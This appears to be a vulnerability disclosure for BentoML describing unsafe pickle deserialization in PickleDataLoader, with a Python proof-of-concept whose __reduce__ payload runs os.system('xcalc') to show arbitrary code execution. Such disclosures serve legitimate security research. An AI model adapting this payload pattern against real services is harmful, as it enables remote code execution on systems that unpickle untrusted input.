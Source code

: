 # Description
BentoML is a framework for serving, managing, and deploying machine learning models. It is aiming to bridge the gap between Data Science and DevOps, and enable teams to deliver prediction services in a fast, repeatable, and scalable way.
* **Vulnerability discription**
    untrusded loading of data by the picle.load function leading to Arbitrary code execution.
# Proof of Concept

1. run exploit.py
```python
# exploit.py
import os
import pickle
#setup
os.system('pip install bentoml')
from bentoml.marshal.utils import PickleDataLoader
#payload formation
class ArbitrarcyCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#serilizing payload
dumps = pickle.dumps(ArbitrarcyCode())
#exploiting bentoml
PickleDataLoader.split_requests(dumps)
```
![](https://media.discordapp.net/attachments/789769803770494996/789769887107121192/Screenshot_from_2020-12-19_07-40-24.png)
